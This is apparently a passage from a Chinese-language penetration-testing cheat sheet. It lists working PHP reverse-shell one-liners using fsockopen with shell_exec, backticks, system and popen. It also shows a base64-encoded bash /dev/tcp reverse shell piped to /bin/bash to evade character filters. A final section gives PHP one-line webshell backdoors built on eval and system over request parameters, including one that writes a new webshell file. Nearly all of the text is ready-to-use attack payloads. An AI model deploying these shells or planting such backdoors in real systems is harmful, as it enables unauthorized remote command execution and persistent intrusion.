 #### 3. 使用 `shell_exec` 函数
```php
php -r '$s=fsockopen("10.10.10.11",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### 4. 使用反引号（shell 命令执行）
```php
php -r '$s=fsockopen("10.10.10.11",443);`/bin/sh -i <&3 >&3 2>&3`;'
```

#### 5. 使用 `system` 函数
```php
php -r '$s=fsockopen("192.168.32.130",7777);system("/bin/sh -i <&3 >&3 2>&3");'
```

#### 6. 使用 `popen` 函数
```php
php -r '$s=fsockopen("192.168.32.130",7777);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```


## 绕过字符限制

### base64绕过

```
echo '/bin/bash -i >& /dev/tcp/192.168.56.131/4444 0>&1'|base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMTMxLzQ0NDQgMD4mMQo=

echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMTMxLzQ0NDQgMD4mMQo='|base64 -d    
bash -i >& /dev/tcp/192.168.56.131/4444 0>&1
```
利用

```
echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMTMxLzQ0NDQgMD4mMQo='|base64 -d | /bin/bash
```
# websehll

### PHP webshell
#### 一句话websehll【小马】

原理理解：

- 蚁剑等webshell工具，通过'pass'参数连接带有一句话目标的页面，创建一个可持续访问网站的后门。用户可通过该后门传递可执行代码，从而实现对网站文件的管理。

php的一句话木马：
```php
<?php @eval($_POST['cmd']);?>


<?php @eval($_POST['pass']);?>
<?php phpinfo();@eval($_POST['pass']);?>
"<?php echo system($_GET["pass"]); ?>"
<?php echo system($_get[pass]); ?>
<?php echo system($_REQUEST['pass']);>
<?php fputs(fopen('xie.php','w'),'<? php eval($_POST[xie])?>');?>
```
